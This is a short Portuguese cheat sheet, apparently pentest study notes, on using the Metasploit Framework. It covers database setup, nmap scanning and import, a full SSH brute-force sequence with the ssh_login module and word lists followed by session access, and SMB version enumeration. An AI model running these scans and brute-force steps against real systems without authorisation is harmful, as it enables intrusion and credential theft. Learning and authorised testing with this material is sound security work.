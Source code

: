 ##   Metasploit Framework

base de dados do metasploit

`msfdb`

*Obs: Antes de inicializar a base dedados lembre-se de atualizar seu sistema.

veriricando status 

`msfdb status`

inicializando postgress

`systemctl start postgresql`

Inicializando

`msfdb init`

inicializando metasploit

`msfconsole`


## Módulos Auxiliares

Exibindo informações

`show -h`

utilizando search

`search -h`

`search ...`

`search type:....`

Utilizando o NMAP no metasploit

`db_nmap -v --open -sV -Pn 192.168.0.1`

Exportando dados do NMAP para posteriormente ser usado no metasploit

`nmap -v --open -sV -Pn 192.168.0.1 -oX /opt/host4.xml`

Importando para o metasploit

`db_import /opt/host4.xml`

Listando informações

`service`

`service -p 21`

`hosts`

`vulns`

## Ataques de força bruta

`search type:auxiliary ssh`

`use auxiliary/scanner/ssh/ssh_login`

`show options`

`nano /opt/users.txt`

`nano /opt/pass.txt`

`set RHOST 192.168.0.1`

`set THREADS 10`

`set USER_FILE /opt/users.txt`

`set PASS_FILE /opt/pass.txt`

`set VERBOSE true`

`run`

`sessions` 

`sessions -i 1`

`creds`

## Levantamento de Informações

`db_nmap -p 139,445 --open -Pn -sS 192.168.0/24`

`services`

`services -p 139`

`services -p 445`

`search type:auxiliary smb`

`use auxiliary/scanner/smb/smb_version`

`info`

`service -p 445 --rhosts`

`show options`

`run`

`hosts`























